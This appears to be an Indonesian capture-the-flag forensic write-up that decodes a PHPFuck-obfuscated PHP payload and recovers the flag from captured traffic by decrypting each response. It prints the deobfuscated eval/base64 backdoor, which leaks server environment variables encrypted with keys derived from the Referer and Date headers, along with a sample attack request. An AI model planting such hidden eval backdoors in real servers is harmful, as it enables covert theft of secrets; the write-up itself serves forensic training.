

# Solver

1. Reverse code PHPnya terlebih dahulu untuk mencari tahu behaviour dari payload yang digunakan. Probset menggunakan [PHPFuck](https://github.com/splitline/PHPFuck) untuk mengobfuscate code sederhana seperti ini

```php
echo base64_encode(openssl_encrypt(getenv($_GET["\141"]), "\x41\x45\x53\x2d\62\x35\x36\55\x43\x42\103", md5($_SERVER["\110\x54\124\x50\137\x52\x45\x46\105\122\x45\122"]), OPENSSL_RAW_DATA, str_pad(date("\x64\x48\151\x73"), 16, date("\144\x48\151\x73"))));
```

Dimana code php tersebut akan mengencrypt environment yang diinput pada parameter `a` menggunakan AES mode CBC dan key nya didapat dari hash md5 dari value header `Referer` dan IV nya didapat dari formatting tanggal sebanyak 2 kali. Untuk mendeobfuscate codenya bisa menggunakan [deobfuscate.py](/ara6-ctf-challenges/final/forensic/File%20PCAP%20Sederhana/poc/deobfuscate.py). Output dari deobfuscate akan terlihat sebagai berikut:

```
((c).(r).(e).(a).(t).(e).(_).(f).(u).(n).(c).(t).(i).(o).(n))(...((s).(t).(r).(_).(g).(e).(t).(c).(s).(v))((,).(").(e).(v).(a).(l).(().(b).(a).(s).(e).(6).(4).(_).(d).(e).(c).(o).(d).(e).(().(').(C).(i).(B).(l).(Y).(2).(h).(v).(I).(G).(J).(h).(c).(2).(U).(2).(N).(F).(9).(l).(b).(m).(N).(v).(Z).(G).(U).(o).(b).(3).(B).(l).(b).(n).(N).(z).(b).(F).(9).(l).(b).(m).(N).(y).(e).(X).(B).(0).(K).(G).(d).(l).(d).(G).(V).(u).(d).(i).(g).(k).(X).(0).(d).(F).(V).(F).(s).(i).(X).(D).(E).(0).(M).(S).(J).(d).(K).(S).(w).(g).(I).(l).(x).(4).(N).(D).(F).(c).(e).(D).(Q).(1).(X).(H).(g).(1).(M).(1).(x).(4).(M).(m).(R).(c).(N).(j).(J).(c).(e).(D).(M).(1).(X).(H).(g).(z).(N).(l).(w).(1).(N).(V).(x).(4).(N).(D).(N).(c).(e).(D).(Q).(y).(X).(D).(E).(w).(M).(y).(I).(s).(I).(G).(1).(k).(N).(S).(g).(k).(X).(1).(N).(F).(U).(l).(Z).(F).(U).(l).(s).(i).(X).(D).(E).(x).(M).(F).(x).(4).(N).(T).(R).(c).(M).(T).(I).(0).(X).(H).(g).(1).(M).(F).(w).(x).(M).(z).(d).(c).(e).(D).(U).(y).(X).(H).(g).(0).(N).(V).(x).(4).(N).(D).(Z).(c).(M).(T).(A).(1).(X).(D).(E).(y).(M).(l).(x).(4).(N).(D).(V).(c).(M).(T).(I).(y).(I).(l).(0).(p).(L).(C).(B).(P).(U).(E).(V).(O).(U).(1).(N).(M).(X).(1).(J).(B).(V).(1).(9).(E).(Q).(V).(R).(B).(L).(C).(B).(z).(d).(H).(J).(f).(c).(G).(F).(k).(K).(G).(R).(h).(d).(G).(U).(o).(I).(l).(x).(4).(N).(j).(R).(c).(e).(D).(Q).(4).(X).(D).(E).(1).(M).(V).(x).(4).(N).(z).(M).(i).(K).(S).(w).(g).(M).(T).(Y).(s).(I).(G).(R).(h).(d).(G).(U).(o).(I).(l).(w).(x).(N).(D).(R).(c).(e).(D).(Q).(4).(X).(D).(E).(1).(M).(V).(x).(4).(N).(z).(M).(i).(K).(S).(k).(p).(K).(T).(s).(g).(').()).()).(;).(")))()
```

Jika dirapihkan maka outputnya akan seperti ini

```
(create_function)(...(str_getcsv)(,"eval(base64_decode('CiBlY2hvIGJhc2U2NF9lbmNvZGUob3BlbnNzbF9lbmNyeXB0KGdldGVudigkX0dFVFsiXDE0MSJdKSwgIlx4NDFceDQ1XHg1M1x4MmRcNjJceDM1XHgzNlw1NVx4NDNceDQyXDEwMyIsIG1kNSgkX1NFUlZFUlsiXDExMFx4NTRcMTI0XHg1MFwxMzdceDUyXHg0NVx4NDZcMTA1XDEyMlx4NDVcMTIyIl0pLCBPUEVOU1NMX1JBV19EQVRBLCBzdHJfcGFkKGRhdGUoIlx4NjRceDQ4XDE1MVx4NzMiKSwgMTYsIGRhdGUoIlwxNDRceDQ4XDE1MVx4NzMiKSkpKTsg');"))()
```

2. Setelah peserta mengetahui behaviour payloadnya, maka tinggal mendecrypt output tiap environment. Sebagai contoh

```
GET /a.php?url=https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2F5a7fce77ff3f3da30b14d9ac9482b624%2Fraw%2Fcc7694799650ac10da47623bd5a1ab8971fae1ef%2Fgistfile1.txt&a=FLAG46 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: keep-alive
Host: 178.128.61.208:8181
Cache-Control: public, max-age=31536000
Accept-Language: fr-FR,fr;q=0.8,en-US;q=0.5,en;q=0.3
Upgrade-Insecure-Requests: 1
Referer: https://duckduckgo.com/


HTTP/1.1 200 OK
Host: 178.128.61.208:8181
Date: Thu, 23 Jan 2025 05:29:10 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Content-type: text/html; charset=UTF-8

6rIMCvtIOg61WdXpG2YdRA==
```

Jika dilihat pada request diatas, keynya bisa didapat dari header referer yaitu: `md5sum('https://duckduckgo.com/')` dan hasilnya adalah `168ce875a2188cce97924a11f6a918df`. Dan yang terakhir ivnya bisa didapat dari header date yaitu `23 05 29 10` dan double hasilnya untuk mendapatkan iv yaitu `2305291023052910`



Ulangi langkah diatas untuk tiap character